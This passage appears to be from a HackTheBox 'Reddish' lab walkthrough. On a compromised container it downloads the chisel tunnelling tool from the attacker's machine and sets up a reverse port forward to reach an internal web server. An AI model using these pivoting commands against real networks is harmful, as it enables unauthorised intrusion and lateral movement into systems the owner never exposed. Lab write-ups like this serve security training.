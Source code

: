 To investigate more about the open ports on the other hosts, chisel is downloaded into the nodered container using the `__curl` function.

```bash
root@nodered:/tmp/workspace_nodered_container## __curl http://10.10.14.26/Pivoting/Linux/chisel_1.7.3_linux_amd64 > chisel
```

On the nodered container set the execution bit for chisel

```bash
chmod +x chisel
./chisel
```

Steps for using chisel for remote port forwarding
1. start a chisel server on the attacker machine.


```bash
./chisel_1.7.3_linux_amd64 server --reverse -p 1234
```

2. on the victim machine define the host and port to be forwarded


```bash
./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80
```

> This means that the port 80 of 172.19.0.2 will be the port 81 of port 10.10.14.26, the decision to use the port 81 is because the port 80 was occupied by "python3 -m http.server" and port 8080 by "burpsuite", always be sure to use a port that is not occupied by another application.

Now that the port 80 of 172.19.0.2 is the port 81 it is possible to access the application through localhost:81 or 127.0.0.1:81

![port 81 forward](/assets/img/htb/reddish/port81forward.png)

The source code found by inspecting the site using google chrome inspect element functionality shows that the site has a function that every time someone visits the index the number of "hits" increase, it also shows notes of backing up a database.

